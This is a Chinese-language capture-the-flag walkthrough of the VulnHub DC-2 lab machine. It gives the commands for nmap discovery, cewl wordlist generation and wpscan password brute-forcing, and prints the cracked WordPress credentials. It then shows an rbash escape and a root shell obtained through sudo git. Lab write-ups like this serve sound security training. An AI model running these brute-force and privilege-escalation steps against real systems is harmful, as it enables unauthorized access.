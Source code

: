 # DC 2

## 环境准备

- 镜像地址：https://www.vulnhub.com/entry/dc-2,311/

## 知识点

- hosts文件修改重定向
- wpscan工具利用
- less more vi等替代查看文件
- suid-git提权

## 信息收集

```bash
ifconfig all # 这里是因为本地局域网
nmap -sP 192.168.2.0/24 # IP探测 扫描本地C段的网络端口信息
# 192.168.2.16
nmap -A -p- -T4 192.168.2.16
```

![](./img/vulnhub-dc2-1.png)

## 漏洞利用
### 0x01-flag1

访问页面会被重定向到 http://dc-2，需要在hosts文件添加解析

```
windows添加
C:\Windows\System32\drivers\etc\host
在下面添加一条
192.168.2.16 dc-2

linux添加
vim /ect/hosts
192.168.2.16 dc-2
```

![](./img/vulnhub-dc2-2.png)

可以看到flag1，提示用cewl，一个用于抓取网站信息用于生成密码的工具，kali自带cewl
### 0x02-flag2

获取password密码表
```bash
cewl http://dc-2 > password
```

网站是WP，用wpscan工具进行爆破(kali自带)
```bash
wpscan --update # 需要先更新
wpscan --url http://dc-2 --enumerate u # 用户信息枚举
```

![](./img/vulnhub-dc2-3.png)

可以看到爆出三个用户，使用cewl爬取的密码文件进行爆破账号密码

```bash
wpscan --url http://dc-2 --passwords password
```

```
Username : jerry
Password : adipiscing

Username : tom
Password : parturient
```

![](./img/vulnhub-dc2-4.png)

wordpress后台默认地址为：http://dc-2/wp-admin/

拿去登录jerry后台发现flag2

![](./img/vulnhub-dc2-5.png)

翻译就是
```
如果你无法利用 WordPress 并采取捷径，那还有另一种方法。

希望你找到另一个入口点。
```

### 0x03-flag3

ssh登录
```
ssh tom@dc-2 -p 7744
```

![](./img/vulnhub-dc2-6.png)

cat vim被禁用，用vi读取flag3

```
Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.
```

```
可怜的老汤姆总是追杰瑞。也许他应该为自己造成的压力负责。
```

### 0x04-flag4

less /etc/passwd
![](./img/vulnhub-dc2-7.png)

可见 jerry 用户存在,接下来就是rbash逃逸->提权

- rbash逃逸：https://xz.aliyun.com/t/7642

```
BASH_CMDS[a]=/bin/bash
a
/bin/bash
export PATH=PATH:/sbin:/bin
```

```bash
cat /home/jerry/flag4.txt
```

```
Good to see that you've made it this far - but you're not home yet.

You still need to get the final flag (the only flag that really counts!!!).
No hints here - you're on your own now.  :-)
Go on - git outta here!!!!
```

### 0x05-flag5

- git提权

```bash
su jerry # 首先登录jerry
sudo -l # 查看用户可执行权限
```

![](./img/vulnhub-dc2-8.png)

搜索git提权

https://gtfobins.github.io/gtfobins/git/


![](./img/vulnhub-dc2-9.png)

```bash
sudo git -p help config
!/bin/sh

cd
cat final-flag.txt
```

提权成功

## 参考文章
- https://github.com/ffffffff0x/1earn/blob/004fbc731d7ce8004b9c2a38613d39f71cd8cb6e/1earn/Security/%E5%AE%89%E5%85%A8%E8%B5%84%E6%BA%90/%E9%9D%B6%E6%9C%BA/VulnHub/DC/DC2-WalkThrough.md
- https://peiqiwiki.yuque.com/staff-ws572w/ku05f9/fg3gg8
- http://www.kxsy.work/2021/07/23/shen-tou-dc-2/#toc-heading-4